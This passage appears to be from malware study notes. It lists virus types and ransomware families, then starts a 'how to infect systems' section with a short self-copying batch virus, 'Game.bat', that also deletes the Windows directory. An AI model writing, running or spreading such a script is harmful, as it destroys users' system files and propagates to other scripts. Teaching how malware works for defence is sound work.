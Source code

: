 * Direct Action or Transient Virus&#x20;
* Terminate & Stay Resident Virus

### Ransomware

Ransomware is a type of malware that restricts access to the computer system’s files and folders and demands an online ransom payment to the malware creator(s) to remove the restrictions.

Ransomware Families:

* Cerber&#x20;
* CTB-Locker&#x20;
* Sodinokibi&#x20;
* BitPaymer&#x20;
* CryptXXX&#x20;
* Cryptorbit ransomware&#x20;
* Crypto Locker Ransomware&#x20;
* Crypto Defense Ransomware&#x20;
* Crypto Wall Ransomware
* Dharma: Dharma is a dreadful ransomware that attacks victims through email campaigns; the ransom notes ask the victims to contact the threat actors via a provided email address and pay in bitcoins for the decryption service
* eCh0raix: eCh0raix is a new ransomware that specifically targets Linux devices with QNAP Network Attached Storages (NAS) by employing the AES encryption technique
* SamSam: SamSam is a notorious ransomware that has infected millions of unpatched servers by employing the RSA-2048 asymmetric encryption technique

Some additional ransomware are as follows:

* WannaCry&#x20;
* Petya - NotPetya&#x20;
* GandCrab&#x20;
* MegaCortex&#x20;
* LockerGoga&#x20;
* NamPoHyu&#x20;
* Ryuk&#x20;
* Cryptgh0st

### How to Infect Systems Using a Virus

Attackers can infect systems using a virus in the following steps:

* Creating Virus&#x20;
* Propagating and Deploying Virus

Creating a Virus A virus can be created in two ways: writing a virus program, and using virus maker tools.

#### Writing a Simple Virus Program:

The following steps are involved in writing a simple virus program:

1. Create a batch file Game.bat with the following text:&#x20;

```
@ echo off 
for %%f in (*.bat) do copy %%f + Game.bat 
del c:\Windows\*.*
```
